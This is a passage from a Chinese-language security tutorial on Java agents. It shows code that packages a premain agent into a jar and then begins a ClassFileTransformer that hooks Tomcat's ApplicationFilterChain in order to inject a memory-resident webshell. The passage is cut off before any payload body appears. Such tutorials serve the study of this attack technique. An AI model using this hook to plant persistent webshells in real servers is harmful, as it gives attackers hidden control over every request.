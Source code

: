 ```java
            // 设置 Premain-Class
            manifest.getMainAttributes().put(new Attributes.Name("Premain-Class"), compileClass.getName());

        } else {
            manifest.getMainAttributes().put(Attributes.Name.MAIN_CLASS, compileClass.getName());
        }

        // 将 class 和  Manifest 写入 jar 文件
        try (FileOutputStream fos = new FileOutputStream(jarFilePath);
             JarOutputStream jos = new JarOutputStream(fos, manifest)) {
            jos.putNextEntry(new JarEntry(className));
            byte[] bytes = pool.get(compileClass.getName()).toBytecode();
            jos.write(bytes);
            jos.closeEntry();
            System.out.println("JAR file created successfully!");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

本类将上面的两个 java 处理为 jar 文件，并设置好 manifest 的内容，启动后可以发现输出了很多内容，我们也可以写一个简单的 spring 服务，通过 premain 的方式注入自己的 filter 内容（以 filter 为例）



##### addTransformer-注入内存马

通过之前对内存马的学习， `org.apache.catalina.core.ApplicationFilterChain`下的 `internalDoFilter` 或者 `doFilter` 方法

都拥有`Request`和`Response`参数，修改一个就可以控制所有的请求与响应。

这里使用 javassist 对被拦截的类方法进行修改，修改如下：

```java
package _InstrumentationTest;

import javassist.*;

import java.lang.instrument.ClassFileTransformer;
import java.lang.instrument.Instrumentation;
import java.security.ProtectionDomain;

public class PremainDemo implements ClassFileTransformer {
    private static final String targetClassName = "org.apache.catalina.core.ApplicationFilterChain";
    public static void premain(String agentArgs, Instrumentation inst) {
        // 创建类转换器实例
        PremainDemo transformer = new PremainDemo();
        inst.addTransformer(transformer);

    }

    @Override
    public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) {
        className = className.replace("/",".");
        if (className.equals(targetClassName)){
            System.out.println("Find the Inject Class: " + targetClassName);
            ClassPool pool = ClassPool.getDefault();
            // 需要加入这段内容，否则会出现 javassist 找不到 ApplicationFilterChain 的报错
            pool.appendClassPath(new LoaderClassPath(Thread.currentThread().getContextClassLoader()));
```